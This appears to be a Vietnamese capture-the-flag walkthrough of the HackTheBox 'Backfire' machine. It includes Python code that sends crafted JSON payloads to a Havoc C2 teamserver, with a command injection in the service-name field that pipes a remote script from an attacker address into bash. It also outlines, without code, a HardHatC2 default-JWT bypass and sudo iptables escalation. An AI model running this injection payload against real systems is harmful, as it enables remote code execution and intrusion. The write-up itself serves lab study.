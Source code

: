 ```

payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
write_socket(socket_id, frame_generator(json.dumps(payload)))

cmd = "curl -s http://10.10.14.42/test.sh | bash"
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""

payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n    \"Amsi/Etw Patch\": \"None\",\n    \"Indirect Syscall\": false,\n    \"Injection\": {\n        \"Alloc\": \"Native/Syscall\",\n        \"Execute\": \"Native/Syscall\",\n        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n    },\n    \"Jitter\": \"0\",\n    \"Proxy Loading\": \"None (LdrLoadDll)\",\n    \"Service Name\":\"" + injection + "\",\n    \"Sleep\": \"2\",\n    \"Sleep Jmp Gadget\": \"None\",\n    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n    \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
        "Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}

write_socket(socket_id, frame_generator(json.dumps(payload)))
```

Đoạn payload cuối thì mọi người có thể tự setup, phần mất thời gian nhất sẽ là việc ngồi code đoạn generate ra text frame cho payload, và xong rồi ta sẽ có user flag.

# Lateral movement
Ở user ilya, ta sẽ đọc được một file ở home directory và content như sau:
```
ilya@backfire:~$ cat hardhat.txt
cat hardhat.txt
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C#
```
Như có thể thấy là HardHatC2 chưa hề được động vào một chút nào và tất cả những gì liên quan đến nó đều là default settings, nếu như search google ta sẽ gặp ngay [bài viết này](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7) và PoC cho đoạn Auth bypass sử dụng jwt secret key defaults. Đoạn này mình lười nên mọi người có thể tự làm tiếp.

Sau đó ta có access được vào HardhatC2 với user sergej, chạy lệnh *sudo -l* ta sẽ có được 2 binary là iptables, iptables-save là user sergej có thể chạy dưới quyền root nhưng mà đến đây mọi người cũng tự làm tiếp luôn vì mình chơi free nên giờ làm lại mệt lắm ;) hehe

# Conclusion
Box này khá là hay, đi xa khỏi lối mòn cũ của HTB và cực kì respect dành cho author

![image](https://github.com/user-attachments/assets/1ece5084-8373-4d80-b56d-19f1c589170f)

Reference:
https://github.com/chebuya/Havoc-C2-SSRF-poc/blob/main/exploit.py
https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py
https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7
https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/
https://noio-ws.readthedocs.io/en/latest/overview_of_websockets.html#:~:text=Frames%20are%20a%20header%20%2B%20application,frames%20and%20three%20control%20frames.
https://stackoverflow.com/questions/78505010/how-to-properly-frame-websocket-messages-in-python-socket-library
https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/
